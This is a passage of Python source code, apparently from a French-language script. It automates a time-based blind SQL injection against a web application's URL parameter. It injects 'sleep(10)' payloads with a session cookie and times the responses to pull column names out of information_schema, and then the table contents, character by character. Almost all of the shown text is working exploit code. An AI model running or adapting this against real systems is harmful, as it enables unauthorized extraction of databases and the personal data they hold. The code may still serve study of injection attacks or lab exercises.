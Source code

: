 ```python
    substr_increment = 1

    while i < restart:
        try:
            for current_letter in range(33,122):
                    payload= f"'-(select sleep(10) from dual where (select substr({column_list[user_choice]},1,{substr_increment}) from {database_list[user_choice_database]} limit {limit},1) = '{last_letter+chr(current_letter)}')-- -"
                    response = requests.get(f"{url}{payload}&lt=food",cookies=cookie)
                    response_time = response.elapsed.total_seconds()
                    if(i > 75):
                        last_letter=""
                        substr_increment = 1
                        limit += 1
                        i = 0
                        data_leak.append(data_name.lower())
                    if(response_time < 5):
                        i+=1
                        pass
                    else:
                        last_letter += chr(current_letter)
                        substr_increment += 1
                        data_name = last_letter              
                        print('[+] data retrieved:',data_name.lower())
                        i = 0

            for data in data_leak:
                print(data)

        except IndexError:
            print('Veuillez choisir un index valable')

def get_columns_name(url=URL, cookie=cookie, table_name=table_list, database=user_choice_database):

    [print('[',index_element,']: -> ',element) for index_element, element in enumerate(table_list)]
    
    user_choice_table = int(input('Quelle table voulez-vous analyser ? (index) : '))

    global column_list

    i = 0
    restart = 75
    last_letter=""
    column_name=""
    limit = 0
    substr_increment = 1

    while i < restart:
        try:
            for current_letter in range(33,122):
                    payload = f"'-(select sleep(10) from dual where (select substr(column_name,1,{substr_increment}) from information_schema.columns where table_name='{table_list[user_choice_table]}' and table_schema='{database_list[user_choice_database]}' limit {limit},1)='{last_letter+chr(current_letter)}')-- -"
                    response = requests.get(f"{url}{payload}&lt=food",cookies=cookie)
                    response_time = response.elapsed.total_seconds()
                    if(i > 75):
                        last_letter=""
                        column_list.append(column_name.lower())
                        substr_increment = 1
                        limit += 1
                        i = 0
                    if(response_time < 5):
```